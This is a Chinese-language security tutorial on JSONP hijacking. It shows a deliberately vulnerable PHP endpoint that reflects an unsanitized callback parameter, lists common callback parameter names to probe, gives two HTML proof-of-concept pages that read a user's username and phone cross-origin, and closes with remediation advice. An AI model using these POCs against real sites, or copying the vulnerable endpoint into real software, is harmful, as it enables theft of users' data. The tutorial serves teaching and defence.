





## 介绍

JSONP（JSON with Padding）是 json 的一种"使用模式"，可以让网页从别的域名（网站）那获取资料，即跨域读取数据；它利用的是`script`标签的src属性不受同源策略影响的特性，使网页可以得到从其他来源动态产生的json数据，因此可以用来实现跨域读取数据。

更通俗的说法：JSONP就是利用 `<script>` 标签的跨域能力实现跨域数据的访问，请求动态生成的JavaScript脚本同时带一个callback函数名作为参数。服务端收到请求后，动态生成脚本产生数据，并在代码中以产生的数据为参数调用callback函数。

## 漏洞原理

和CSRF类似，都需要用户交互，而CSRF主要是以用户的账户进行增删改的操作，jsonp则主要用来劫持数据。

当网站通过JSONP方式传递用户敏感信息时，攻击者可以伪造JSONP调用页面，诱导被攻击者访问来达到窃取用户信息的目的；jsonp数据劫持就是攻击者获取了本应该传给网站其他接口的数据。

>  [!NOTE]
>
> 可能还是有点抽象，可以继续往后看例子，其实很简单

## 漏洞环境

假设这是目标网站上的代码，然后我们利用漏洞就可以劫持到里面的数据，如`username`、`phone`

```php
<?php
//test.php
header('Content-type: application/json');
$callback = $_GET['callback'];
print $callback.'({"username" : "d4m1ts","phone" : "13888888888"});';
?>
```

快速启动php环境

```shell
php -S 127.0.0.1:9999
```

实现效果



## 利用场景

如上图，所有包含有`callback`等回调函数的，且请求方式为GET，没有验证referer等，都可以尝试下该漏洞

如果返回内容是json格式的，但是没有回调函数，我们可以尝试手动添加回调函数去试试运气，一些常见的如下:

```
_callback=mstkey
_cb=mstkey
callback=mstkey
cb=mstkey
jsonp=mstkey
jsonpcallback=mstkey
jsonpcb=mstkey
jsonp_cb=mstkey
json=mstkey
jsoncallback=mstkey
jcb=mstkey
call=mstkey
callBack=mstkey
jsonpCallback=mstkey
jsonpCb=mstkey
jsonp_Cb=mstkey
jsonCallback=mstkey
ca=mstkey
```

## 漏洞利用

当我们发现信息泄露的 jsonp 接口以后，我们需要构造一个恶意html页面，然后引诱受害者去访问这个网站，一旦访问了这个网站，脚本就会自动运行，就会向这个接口请求用户的敏感数据，并传送到攻击者的服务器上。

一图胜千言



### POC

> 基于实现回调函数

```html
<script>
function xxx(data)
{
  alert(data.username);
}
</script>
<script src="http://127.0.0.1:9999/test.php?callback=xxx"></script>
```

保存为html，诱导受害者访问，可见成功获取到了`username`信息



简而言之：存在信息泄漏的JSONP接口`http://127.0.0.1:9999/test.php?callback=xxx`，攻击者构造POC后诱导用户访问POC，然后就会调用这个接口获取到敏感数据，获取到的敏感数据被攻击者截获了。

### POC_1

> 基于jQuery

```html
<script src="http://cdn.static.runoob.com/libs/jquery/1.8.3/jquery.js"></script>
<script type="text/javascript">    
    $.getJSON("http://127.0.0.1:9999/test.php?callback=?", function(data){
          alert(data.phone);
    });
</script>
```



## 修复建议

1. 接受请求时检查`referer`来源；
2. 在请求中添加`token`并在后端进行验证；
3. 严格过滤callback函数名及JSON里数据的输出


## 扩展

* 如果目标的header头没有设置`Content-Type`为`json`，而是`html`，那么也可以造成XSS漏洞
* [一个获取QQ号的JSONP劫持实例](http://www.piaoyi.org/network/get-qq-haoma-js.html)



- 推荐阅读：[JSONP挖掘与高级利用](http://drops.xmd5.com/static/drops/papers-6630.html)